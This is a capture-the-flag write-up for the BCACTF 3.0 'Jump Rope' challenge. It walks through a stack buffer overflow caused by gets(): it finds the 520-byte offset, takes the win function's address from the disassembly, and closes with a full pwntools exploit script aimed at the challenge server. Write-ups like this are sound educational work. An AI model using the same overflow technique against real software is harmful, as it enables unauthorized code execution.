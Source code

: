 # BCACTF 3.0: Jump Rope


## Description

Here at BCA, we take fitness very seriously. Lately, our gym teachers have been stressing jumproping as cardio... I'm not too good at it yet though, but I think you might be able to show me how it's done!

I did download the challenge files 

First lets run checksec 

```sh
Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

NX enabled : will prevent shellcode exectusion

Running the binary

!['challenge'](./challenge.png)



After seeing the souce code we have : 


```c
void a() {
    FILE *fptr = fopen("flag.txt", "r");
    char flag[100];
    if(fptr == NULL){
        printf("\nLooks like we've run out of jump ropes...\n");
        printf("Challenge is misconfigured. Please contact admin if you see this.\n");
    }

    fgets(flag, sizeof(flag), fptr);
    puts(flag);
}
```

This function will give us the flag if we call it, but as we can see its not called any where in the program, so our main goal is to call this function


Next we have this function :

```c
void jumprope(){
    char arr[500];
    printf("\nBetter start jumping!\n");
    gets(arr);
    printf("Woo, that was quite the workout wasn't it!\n");
}
```

We know that the dangerous part here is :

```c
 gets(arr);
```
 

We will use cyclic from gef tools to know the exact offset, as we can see in the source code the buffer size is 500 so we will use a value above that

cyclic 600 -n 8


-n 8 : cause we have a 64 bits 

```sh
$rsp   : 0x007fffffffdce8  →  "paaaaaacqaaaaaacraaaaaacsaaaaaactaaaaaacuaaaaaacva[...]"
$rbp   : 0x636161616161616f ("oaaaaaac"?)
$rsi   : 0x1               
$rdi   : 0x007ffff7f9fa70  →  0x0000000000000000
$rip   : 0x00000000401259  →  <jumprope+61> ret 
```

$rip (64-bit Instruction Pointer) as we can see here we didn't override it, well 64 bits binaries have some differences, it will not allow a malformed address to go into the stack in the first place


Lets find the offset :

```sh
gef➤  pattern offset $rsp
[+] Searching for '$rsp'
[+] Found at offset 520 (little-endian search) likely
```

In order to exploit this we need


'A' * 520  +  the address of the function where we want our instruction pointer to point to.


the address of the a() function we can get it from gdb by typing :

```sh
gef➤  disas a
Dump of assembler code for function a:
   0x00000000004011b6 <+0>:	endbr64 
   0x00000000004011ba <+4>:	push   rbp
   0x00000000004011bb <+5>:	mov    rbp,rsp
   0x00000000004011be <+8>:	sub    rsp,0x70
   0x00000000004011c2 <+12>:	lea    rsi,[rip+0xe3f]        # 0x402008
   0x00000000004011c9 <+19>:	lea    rdi,[rip+0xe3a]        # 0x40200a
   0x00000000004011d0 <+26>:	call   0x4010c0 <fopen@plt>
   0x00000000004011d5 <+31>:	mov    QWORD PTR [rbp-0x8],rax
   0x00000000004011d9 <+35>:	cmp    QWORD PTR [rbp-0x8],0x0
   0x00000000004011de <+40>:	jne    0x4011f8 <a+66>
   0x00000000004011e0 <+42>:	lea    rdi,[rip+0xe31]        # 0x402018
   0x00000000004011e7 <+49>:	call   0x401080 <puts@plt>
   0x00000000004011ec <+54>:	lea    rdi,[rip+0xe55]        # 0x402048
   0x00000000004011f3 <+61>:	call   0x401080 <puts@plt>
   0x00000000004011f8 <+66>:	mov    rdx,QWORD PTR [rbp-0x8]
   0x00000000004011fc <+70>:	lea    rax,[rbp-0x70]
   0x0000000000401200 <+74>:	mov    esi,0x64
   0x0000000000401205 <+79>:	mov    rdi,rax
   0x0000000000401208 <+82>:	call   0x4010a0 <fgets@plt>
   0x000000000040120d <+87>:	lea    rax,[rbp-0x70]
   0x0000000000401211 <+91>:	mov    rdi,rax
   0x0000000000401214 <+94>:	call   0x401080 <puts@plt>
   0x0000000000401219 <+99>:	nop
   0x000000000040121a <+100>:	leave  
   0x000000000040121b <+101>:	ret    
End of assembler dump.
```

This is the address of a() 

```python
0x00000000004011b6 <+0>:	endbr64 
```



So the exploit will be : 


```python
import pwn
import argparse

parser = argparse.ArgumentParser()

parser.add_argument("-r", "--remote", help="perform the attack on the remote target",
                    action="store_true")
args = parser.parse_args()
if args.remote :
    p = pwn.remote('bin.bcactf.com', 49177)
else:
    p = pwn.process("./jumprope")


## cause of the endbr64 (google it) this didnt work when i tried this localy but i it work on the remote server
#new_rip = pwn.p64(0x00000000004011b6)
 
new_rip = pwn.p64(0x00000000004011bb) # *a+5
 
offset = 520  

payload = b"".join(
    [
        b"A" * offset,
        new_rip
    ]
)
  
print(p.recvuntil('jumping!'.encode()).decode('utf-8'))

p.sendline(payload)

print(p.recv().decode('utf-8'))

p.interactive()
```

## Demo

!['demo'](exploit.gif)

I didn't solve this challenge during the competition because of the "endbr64" but the  exploit does work on the remote server except i didn't try that only after the CTF did end 💢😤


Lesson learned from here is that you should run your exploit on the remote target even if it's not working locally 🤓



